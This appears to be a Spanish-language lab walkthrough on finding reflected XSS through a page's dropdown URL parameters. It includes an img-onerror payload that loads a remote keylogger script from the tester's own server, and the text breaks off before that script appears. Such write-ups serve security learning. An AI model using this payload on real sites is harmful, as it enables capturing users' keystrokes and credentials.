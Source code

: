 >El menú cuenta con tres "Dropdowns" o "Menú desplegables" que nos permiten seleccionar distintos valores para cada uno, al enviar un valor, es reflejando en la zona baja de la web.
>Para este caso, vemos que la petición tiene los valores de los menú desplegables en la URL:

![\1](/Attachments/Pasted%20image%2020250608235811.png)

>Lo que quiere decir que podemos cambiarlos con total libertad desde allí (_Aunque en la web parecen no ser modificables_), O, operar mas cómodamente con burpsuite.

>Desde la URL (Para que se entienda mejor) vamos a testear un poco con algo sencillo:

![\1](/Attachments/Pasted%20image%2020250609004801.png)
_Modificamos la opcion1 por un encabezado entre etiquetas h1
![\1](/Attachments/Pasted%20image%2020250609004818.png)
_Vemos que la web SI que interpreta HTML_

>Ya que sabemos que es vulnerable, tal vez... Un keylogger sencillo:

```javascript
<img src=x onerror="s=document.createElement('script');s.src='//nuestra_ip/key.js';document.body.appendChild(s)">
```
1. _igual que en ejemplos anteriores, forzamos el evento "onerror" al cargar una imagen inexistente (Esto es para evitar usar directamente la etiqueta "script" que parece no funcionar)_
2. _Con "document.createElement('script')" estamos creando una etiqueta "script" en el DOM sin tener que inyectarla tradicionalmente._
3. _Con "s.src=//IP//archivo" definimos que la fuente del "script" que creamos antes será un archivo remoto que estará alojando en nuestro servidor (_Ya que inyectándolo dentro del payload no tuve muy buenos resultados :'( .  )
4. _Por ultimo, con "document.body.appendChild(s)" añadimos lo anterior al cuerpo HTML ejecutando el código que hay en key.js de manera automática y medio persistente (Seria mas efectivo en un XSS Almacenado).

>Claro, para que payload funcione, debemos crear el archivo "Key.js" en nuestro servidor, que será el que tendrá el código malicioso:
